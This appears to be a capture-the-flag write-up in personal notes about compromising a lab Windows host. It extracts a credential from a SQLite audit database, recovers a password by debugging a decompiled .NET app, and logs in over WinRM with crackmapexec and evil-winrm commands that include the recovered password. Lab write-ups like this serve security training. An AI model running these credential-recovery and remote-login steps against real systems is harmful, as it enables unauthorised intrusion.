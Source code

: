 `file Audit.db` which is a SQLite file

![[Pasted image 20250112205530.png]]
View contents of database with:

`sqlite3 Audit.db .dump`

![[Pasted image 20250112205633.png]]
Got a credential!

Base64 decode.

`echo BQ0515Kj9MdErXx6Q6AG0w= | base64 -d`

![[Pasted image 20250112205739.png]]

Output: `D|zC;`

These creds don't work with #crackmapexec 

![[Pasted image 20250112205859.png]]
Switched to a windows box to use #DNSPY to decompile the CascAudit DotNet application

![[Pasted image 20250112210241.png]]
Set a breakpoint at this decryption point. 

Step Over after breakpoint is reached.

Can see the password the password here.

![[Pasted image 20250112210426.png]]

Using this password with arksvc user 

`cme smb 10.10.10.182 -u arksvc -p w3lc0meFr31nd`

![[Pasted image 20250112210607.png]]
Login, no pwn3d.

Login with winrm?

`cme winrm 10.10.10.182 -u arksvc -p w3lc0meFr31nd`

![[Pasted image 20250112210749.png]]
Yes.

Using #evilwinrm again to login with these creds.

`evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd`

![[Pasted image 20250112210914.png]]
View privileges we have with 

`whoami /all`

We are in the `AD Recycle Bin` Group
